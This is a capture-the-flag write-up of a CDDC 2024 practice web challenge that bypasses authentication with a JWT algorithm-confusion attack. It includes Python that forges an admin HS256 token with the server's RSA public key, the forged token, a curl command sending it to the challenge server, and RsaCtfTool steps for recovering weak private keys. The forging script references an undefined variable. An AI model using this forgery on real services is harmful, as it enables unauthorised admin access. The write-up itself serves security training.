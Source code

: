 ```yaml
---
description: >-
  The Main challenge is from CDDC 2024 Practice Practice round. Go try it first
  before you read this.
---
```


# JWT Challenge

We have learnt about JWT, but what about the attack of it?

## Can you compromise this?

{% file src="../../.gitbook/assets/web4_so_dizzy.zip" %}

If CDDC practice machine is still up, here is the initial site:&#x20;

{% embed url="http://47.128.156.184:10008/" %}

<figure><img src="../../.gitbook/assets/Pasted image 20240506225257.png" alt=""><figcaption></figcaption></figure>

There are 2 options, to check in via admin or guest, when we click on either, we see this:&#x20;

<figure><img src="../../.gitbook/assets/Pasted image 20240506225244.png" alt=""><figcaption><p>A hint at the site you need to visit for token</p></figcaption></figure>

So visiting http://47.128.156.184:10008/getcookie will supply the user with a cookie:&#x20;

Guest Token:

```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiZ3Vlc3QifQ.ATWEP-3TalFgZ0NavDYr8h7at_9n-jxo9nVNuLvMdIx5xKeTTvrAd9Z22vGh87MFXy5vBFfBG4h6b7_ef9yqzJpBy-mdFGNXkg8TbywVJ_bJDzNFcSfv02Sxya9L9Z_1LwACyKpZFVsFuqmltgImmMb07I0j1_J4NpwcnYDlbSev6nhLJ8prsXiIScXLLr4GRniIgkR8AwnI1pAbqb0RqxsC-cNTBbPrV7zcd3dg3X1ASbBdKLh-uCJhDAFUsEWd2eD5wm4EGCalocZLercz_sDGMF9MCUKKt2tlPnh5snCMd3VIYIsKIKaaxwqh2nTgjYQT2Qyt5UFmHKIvqWcr5g
```

Translates to:

```
Headers = {
  "alg": "RS256",
  "typ": "JWT"
}

Payload = {
  "user": "guest"
}

Signature = "ATWEP-3TalFgZ0NavDYr8h7at_9n-jxo9nVNuLvMdIx5xKeTTvrAd9Z22vGh87MFXy5vBFfBG4h6b7_ef9yqzJpBy-mdFGNXkg8TbywVJ_bJDzNFcSfv02Sxya9L9Z_1LwACyKpZFVsFuqmltgImmMb07I0j1_J4NpwcnYDlbSev6nhLJ8prsXiIScXLLr4GRniIgkR8AwnI1pAbqb0RqxsC-cNTBbPrV7zcd3dg3X1ASbBdKLh-uCJhDAFUsEWd2eD5wm4EGCalocZLercz_sDGMF9MCUKKt2tlPnh5snCMd3VIYIsKIKaaxwqh2nTgjYQT2Qyt5UFmHKIvqWcr5g"
```

We see the algo used was "RS256" which is RSA with SHA256, means the key is asymmetric.

We have a public key from http://47.128.156.184:10008/api/jwt

```
{"public_key":"-----BEGIN PUBLIC KEY-----\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAiErXyh99IXoui0ua+QeP\nESzg3AhM4euZ1+/WCOHTsyeiY65veUrFUENBAUk8xVkv8dDqabPD9YybWCDE75Fn\nZyKtVOUOtfAJNGRbcUApQgMdbh3gnNeC9wELbw2AjN/wQMuKpbWBdXq7KZ6Fe3FG\ncd+65CVNcKKIam3Y7S6vDnq5TBgDGc/D1nQnOIdh9D7Z7ndGzqPSen3HoMhiKZlw\n27Vguq7n0c7JRqzazy+hLWigCd8cUpiu+1ZadnqGWtOD3ts+pbWrc5Q0mPpmEXST\nKU8CtSSzNPTMhZrt9mCo/UyX8p3wz+M4t+qVMuHmqbA7TGzGiToXyYBXuUrbj+3v\nLQIDAQAB\n-----END PUBLIC KEY-----"}
```

Public key:

```
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAiErXyh99IXoui0ua+QeP
ESzg3AhM4euZ1+/WCOHTsyeiY65veUrFUENBAUk8xVkv8dDqabPD9YybWCDE75Fn
ZyKtVOUOtfAJNGRbcUApQgMdbh3gnNeC9wELbw2AjN/wQMuKpbWBdXq7KZ6Fe3FG
cd+65CVNcKKIam3Y7S6vDnq5TBgDGc/D1nQnOIdh9D7Z7ndGzqPSen3HoMhiKZlw
27Vguq7n0c7JRqzazy+hLWigCd8cUpiu+1ZadnqGWtOD3ts+pbWrc5Q0mPpmEXST
KU8CtSSzNPTMhZrt9mCo/UyX8p3wz+M4t+qVMuHmqbA7TGzGiToXyYBXuUrbj+3v
LQIDAQAB
-----END PUBLIC KEY-----
```

Checking the source code they provided, this is how the server side validates token, so do you see what is wrong with it?&#x20;

<figure><img src="../../.gitbook/assets/Pasted image 20240506231933 (1).png" alt=""><figcaption><p>From main.py</p></figcaption></figure>

There is no validation!

If anything is modified on the algo section of the Headers, the `jwt.decode` will process it using that algorithm, this vulnerability is important to note since we can technically just modify this field in the JWT using HMAC, resign the token with the public key, send it over, the server uses the public key to decrypt the signature, and see our information sent anyways.

Indicated in the documentation of this library is the following:\
"This decoding method is insecure. By default `jwt.decode` parses the alg header. This allows symmetric macs and asymmetric signatures. If both are allowed a signature bypass described in CVE-2016-10555 is possible."&#x20;

### For more information along with mitigation:&#x20;

{% embed url="https://docs.authlib.org/en/latest/jose/jwt.html" %}

We also need to modify the user from user to admin, we can achieve this using simple python code as follows:

```python
from authlib.jose import jwt

# Your public key
public_key = "-----BEGIN PUBLIC KEY-----\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAiErXyh99IXoui0ua+QeP\nESzg3AhM4euZ1+/WCOHTsyeiY65veUrFUENBAUk8xVkv8dDqabPD9YybWCDE75Fn\nZyKtVOUOtfAJNGRbcUApQgMdbh3gnNeC9wELbw2AjN/wQMuKpbWBdXq7KZ6Fe3FG\ncd+65CVNcKKIam3Y7S6vDnq5TBgDGc/D1nQnOIdh9D7Z7ndGzqPSen3HoMhiKZlw\n27Vguq7n0c7JRqzazy+hLWigCd8cUpiu+1ZadnqGWtOD3ts+pbWrc5Q0mPpmEXST\nKU8CtSSzNPTMhZrt9mCo/UyX8p3wz+M4t+qVMuHmqbA7TGzGiToXyYBXuUrbj+3v\nLQIDAQAB\n-----END PUBLIC KEY-----"

def gentoken(key):
    header = {"alg": "HS256"}
    payload = {"user": "admin"}
    token = jwt.encode(header, payload, key)
    return token

token = gentoken(public_key_pseudo)
print(token)
```

The output will be this token:

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4ifQ.IX3MZqrvRdDMW00Il83c8KXuPRiXQ7rX5sq9-CqSWAY
```

Check with JWT burp extension to see if the signature is verified:&#x20;

<figure><img src="../../.gitbook/assets/Pasted image 20240506212518.png" alt=""><figcaption><p>Using JSON web Tokens extension of Burpsuite, we can verify our token is working</p></figcaption></figure>

Extension:

{% embed url="https://github.com/portswigger/json-web-tokens" %}

Since it is verified, there should be no issue on the server side, we can curl it to see our flag:

```bash
curl --cookie "session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4ifQ.IX3MZqrvRdDMW00Il83c8KXuPRiXQ7rX5sq9-CqSWAY" http://47.128.156.184:10008/post/1
```

And bypassed!

&#x20;![](<../../.gitbook/assets/Pasted image 20240506212454 - Copy (1).png>)

## HMAC Attack

If the situation was different, and the token was just using HMAC from the start, getting a hold of the symmetric key would mean game over for the server, since we would already be able to resign the JWT and send it to the server.

## Small key RSA SHA256

If the public key was not as big as the current, the private key could possibly be recovered using the RsaCtfTool

We try to get the private key from the public key

```bash
git clone https://github.com/RsaCtfTool/RsaCtfTool.git
cd RsaCtfTool 
pip3 install -r requirements.txt

python3 RsaCtfTool.py --publickey ../public.pem --private
```

If it is recoverable, the private key will show:&#x20;

<figure><img src="../../.gitbook/assets/Pasted image 20240506235237.png" alt=""><figcaption><p>Source: https://ctftime.org/writeup/30541</p></figcaption></figure>

Which you can use to resign the token after modification.

### Conclusion

It is important to use validation for all your methods with regards to authentication, and use of strong keys are recommended, and do not expose your keys easily.

#### Author: [`Ninjarku`](https://github.com/Ninjarku)

